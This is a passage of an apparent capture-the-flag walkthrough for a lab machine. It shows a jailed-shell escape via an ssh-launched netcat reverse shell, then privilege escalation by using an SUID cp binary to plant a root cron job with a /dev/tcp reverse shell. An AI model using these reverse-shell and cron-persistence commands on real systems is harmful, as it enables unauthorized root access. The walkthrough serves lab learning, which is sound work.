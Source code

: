 
I noticed a jailed shell that limits the execution of system commands, so to bypass this I used the following ssh command.

```console
root@kali:~# ssh -l karl 172.16.178.134 -i id_rsa 'nc 172.16.178.1 443 -e /bin/bash'
Enter passphrase for key 'id_rsa':
id
uid=1001(karl) gid=1001(karl) groups=1001(karl)
```

I found the first flag in the **.ssh** directory.

```console
cat .ssh/user.txt
flag1{z29vZGJveQ}
```

## Privilege Escalation
### SUID Binary

Listing the SUID binaries, I found the **cp** command.

```console
find / -perm -u=s -type f 2>/dev/null
...
/bin/cp
...
```

I used the following commands to create a bash reverse shell that executes every minute as a cron job.

```console
echo -e "* * * * * root bash -c 'bash -i >& /dev/tcp/172.16.178.1/1234 0>&1'\n" > /tmp/sysfile
cp /tmp/sysfile /etc/cron.d/
```

I started a netcat listener on port 443, and after a minute I got a root shell.

```console
root@kali:~# nc -vlnp 1234
listening on [any] 1234 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.134] 60298
bash: cannot set terminal process group (9187): Inappropriate ioctl for device
bash: no job control in this shell
root@happycorp:~# whoami
whoami
root
```

Finally was found the last flag.

```console
root@happycorp:~# cat root.txt
cat root.txt
Congrats!
flag2{aGFja2VyZ29k}
Here is some useless ascii art :)
           ,----------------,              ,---------,
        ,-----------------------,          ,"        ,"|
      ,"                      ,"|        ,"        ,"  |
     +-----------------------+  |      ,"        ,"    |
     |  .-----------------.  |  |     +---------+      |
     |  |                 |  |  |     | -==----'|      |
     |  |                 |  |  |     |         |      |
     |  |  Hacker God     |  |  |/----|`---=    |      |
     |  |  C:\>_          |  |  |   ,/|==== ooo |      ;
     |  |                 |  |  |  // |(((( [33]|    ,"
     |  `-----------------'  |," .;'| |((((     |  ,"
```